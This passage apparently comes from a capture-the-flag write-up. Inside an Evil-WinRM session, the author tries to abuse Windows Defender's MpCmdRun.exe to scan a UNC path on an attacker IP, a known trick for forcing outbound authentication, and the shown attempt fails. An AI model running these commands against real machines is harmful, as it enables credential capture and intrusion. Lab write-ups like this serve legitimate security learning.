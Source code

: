 > `-Scan [-ScanType [0\|1\|2\|3]] [-File <path> [-DisableRemediation] [-BootSectorScan] [-CpuThrottling]] [-Timeout <days>] [-Cancel]` Scans for malicious software. Values for ScanType are: 0 Default, according to your configuration, -1 Quick scan, -2 Full scan, -3 File and directory custom scan.

remote share scanning? :\)

```text
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\henry.vinson_adm\Documents\test> cd "C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\"
Cannot find path 'C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\' because it does not exist.

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\henry.vinson_adm\Documents\test> cd "C:\ProgramData\Microsoft\Windows Defender\platform\"
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\ProgramData\Microsoft\Windows Defender\platform> ls


    Directory: C:\ProgramData\Microsoft\Windows Defender\platform


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/10/2020  11:09 AM                4.18.2010.7-0
d-----        3/17/2021   3:13 PM                4.18.2102.4-0
```

The example on the page did not work, but I found two newer versions in the `/platform` folder. I hoped that one would still be vulnerable to this issue

```text
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0> ./MpCmdRun.exe -Scan -ScanType 3 -file \\10.10.14.187\test
Scan starting...
CmdTool: Failed with hr = 0x80508023. Check C:\Users\HENRY~2.VIN\AppData\Local\Temp\MpCmdRun.log for more information
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0> type C:\Users\HENRY~2.VIN\AppData\Local\Temp\MpCmdRun.log




-------------------------------------------------------------------------------------

MpCmdRun: Command Line: "C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe" -Scan -ScanType 3 -File \\10.10.14.187:8081\file.txt

 Start Time:  Thu  Apr  01  2021 22:25:24



MpEnsureProcessMitigationPolicy: hr = 0x0

Starting RunCommandScan.

INFO: ScheduleJob is not set. Skipping signature update.

Scanning path as file: \\10.10.14.187:8081\file.txt.

Start: MpScan(MP_FEATURE_SUPPORTED, dwOptions=16385, path \\10.10.14.187:8081\file.txt, DisableRemediation = 0, BootSectorScan = 0, Timeout in days = 1)

MpScan() started

Warning: MpScan() encounter errror. hr = 0x80508023

MpScan() was completed
```